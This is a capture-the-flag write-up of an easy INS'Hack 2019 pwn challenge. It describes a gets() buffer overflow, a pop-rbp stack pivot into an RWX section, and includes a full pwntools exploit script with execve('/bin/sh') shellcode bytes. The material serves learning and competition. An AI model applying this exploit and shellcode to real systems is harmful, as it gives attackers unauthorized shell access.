 # gimme-your-shell

"gimme-your-shell" was an easy pwn challenge in the INS'Hack ctf 2019.
Although not very complicated, I struggled to solve it because
I didn't try with a naive solution despite the fact that it was tagged EASY.

## Challenge description

Someone is always asking me the same question when I try to find his secret. Can you answer his question and get his secret ? I can handle it.

He is waiting for you at: `ssh -i <your_keyfile> -p 2225 user@gimme-your-shell.ctf.insecurity-insa.fr`
To find your keyfile, look into your profile on this website.

[binary](weak)

## The problem

From the first glance with Binary Ninja I see a `vuln` function that is called by the `main` function.
I immediately notice that there is a buffer overflow in the `vuln` function because of the use of `gets`.

Indeed, "gets" is a function that allows you to read the content of stdin to a buffer passed as a parameter until you meet the end-of-line character. (\n, 0xa)

![Vuln function](images/vuln.png)

I also quickly notice that there are several sections in Read Write Exec (RWX) including the stack and the .data section.

![Sections](images/sections.png)

A quick look at the security features of this program shows us that there are simply none.
![Security](images/sec.png)

## A naive solution

The simple solution I didn't think to try during the CTF is to send a shellcode and jump on it with the `nop sled` technique since the stack is executable. However, this technique requires that `ASLR` security be disabled on the remote server, information I didn't have.

## A better solution

Looking more closely at the `vuln` function I notice that it works like this:

```nasm
push rbp; save context
mov rbp, rsp
lea rax, [rbp - 0x10]
mov rdi, rax
call gets
leave; restore context
ret; jump to saved rip
```

My idea is to change the value of rbp to a well chosen value by doing a first buffer overflow in order to jump on a gadget that allows us to do that.
Luckily I quickly notice that there is a `pop rbp; ret` gadget at `0x400522`.

I have chosen to use a value in section `0x00600000-0x00601000` which is in RWX (The address value must not contain "\n"), I randomly chose the value `0x60babe`.

Now it is necessary to re-run the vuln function but taking care not to execute the `pop rbp; mov rpb, rsp` part so I decided to jump at `0x400570`.

```nasm
;0x400570 
lea rax, [rbp - 0x10]
mov rdi, rax
call gets
```

As you know `leave` is equivalent to `mov rsp, rbp` puis `push rbp`, `saved_rip` is therefore located in our new buffer.

As I like to complicate my task and I think that nop sled takes up space (false excuse in fact I just didn't think about it. Once again!) I wrote the return address in the middle of my shellcode using a relative jump.

After that I put all the pieces of the puzzle together and I validate the challenge.


```python
#! /usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *

conn = process(["ssh", "-i", "key", "-p", "2225", "user@gimme-your-shell.ctf.insecurity-insa.fr "])
conn.recvuntil(banner)

pop_rbp_ret = 0x400522 #pop rbp; ret
rwx_section = 0x60babe #rwx section far enough to not have any "\n" in the payload (due to the rbp-0x10); "\n" stop the reading of gets
gets 		= 0x400570 #mov rdi, rbp-0x10; call gets; .... ; ret

# execve("/bin/sh", NULL, NULL)
shellcode  = ""

shellcode += "\x48\x31\xff"	# xor rdi, rdi
shellcode += "\x48\x31\xf6"	# xor rsi, rsi
shellcode += "\x48\x31\xd2"	# xor rdx, rdx
shellcode += "\x48\x31\xc0"	# xor rax, rax
shellcode += "\x50"			# push rax
shellcode += "\xeb\x11"		# jmp rel 0x13

#####
shellcode += "\x90"*9 # nop sled
shellcode += p64(rwx_section - 0x10) # new Saved_RIP with the new stack, YES! Right in the middle of the shellcode :D. (Thx to the rbp - 0x10)
#####

#jump here:
shellcode += "\x48\xbb\x2f\x62\x69\x6e\x2f\x2f\x73\x68" # movabs rbx, 0x68732f2f6e69622f ; '/bin//sh'
shellcode += "\x53"				# push rbx
shellcode += "\x48\x89\xe7"		# mov rdi, rsp
shellcode += "\xb0\x3b"			# mov al, 0x3b
shellcode += "\x0f\x05"			# syscall


firstStage += p64(pop_rbp_ret)
firstStage += p64(rwx_section) 
firstStage += p64(gets)


payload = "A"*24 #Padding before hit saved_rip
payload += firstStage
payload += "\n"
payload += shellcode

print payload
```

![Flag](images/flag.png)

## Conclusion

This challenge was very interesting, and I had a lot of fun to flag it.
Thanks a lot to the organizing team for this edition!
And a big thank you to Mathis Hammel for his teasing for a while.


### BZHugs for Inshall'Hack.